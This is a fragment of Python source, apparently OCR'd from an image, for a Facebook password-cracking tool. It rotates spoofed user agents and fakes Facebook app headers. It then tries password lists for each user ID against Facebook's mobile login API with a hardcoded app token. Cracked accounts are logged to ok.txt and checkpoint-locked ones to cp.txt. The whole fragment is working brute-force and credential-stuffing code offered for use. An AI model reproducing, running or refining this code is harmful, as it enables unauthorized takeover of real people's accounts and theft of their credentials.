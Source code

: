   'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0',
  'Mozilla/5.0 (Macintosh; Intel Mac OS X x.y; rv:42.0) Gecko/20100101 Firefox/42.0',
  'Mozilla/5.0 (Windows Phone 10.0; Android 6.0.1; Microsoft; RM-1152) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Mobile Safari/537.36 Edge/15.15254',
  'Mozilla/5.0 (Windows Phone 10.0; Android 4.2.1; Microsoft; RM-1127_16056) AppleWebKit/537.36(KHTML, like Gecko) Chrome/42.0.2311.135 Mobile Safari/537.36 Edge/12.10536',
  'Mozilla/5.0 (Windows Phone 10.0; Android 4.2.1; Microsoft; Lumia 950) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2486.0 Mobile Safari/537.36 Edge/13.1058',
  'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0',
  'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36',
  'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36',
  'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36',
  'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322)',
  'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
  'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36',
  'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0',
  'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36',
  'Mozilla/5.0 (Windows IoT 10.0; Android 6.0.1; WebView/3.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Mobile Safari/537.36 Edge/17.17134',
  'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.113 Safari/537.36',
  'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0'
			])
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[0;97m   [=Jhalla=OK=>] %s | %s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write("   [=Jhalla=OK=>]  %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[0;92m   [=Jhalla=CP=>] %s | %s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write("   [=Jhalla=CP=>]  %s|%s\n"%(uid, pw))
				break
			else:
				continue
